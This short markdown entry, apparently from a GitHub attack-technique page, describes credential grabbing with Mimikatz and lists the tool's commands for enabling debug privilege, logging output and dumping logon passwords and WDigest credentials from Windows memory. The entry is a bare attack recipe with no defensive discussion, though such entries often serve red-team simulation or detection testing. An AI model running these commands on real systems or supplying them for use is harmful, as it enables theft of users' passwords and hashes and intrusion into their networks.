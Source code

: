 # Credential Grabbing with Mimikatz

This attack uses Mimikatz to grab credentials via the command line. The Mimikatz commands are: 
- `privilege::debug`
- `log log.txt`
- `sekurlsa::logonpasswords`
- `sekurlsa::wdigest`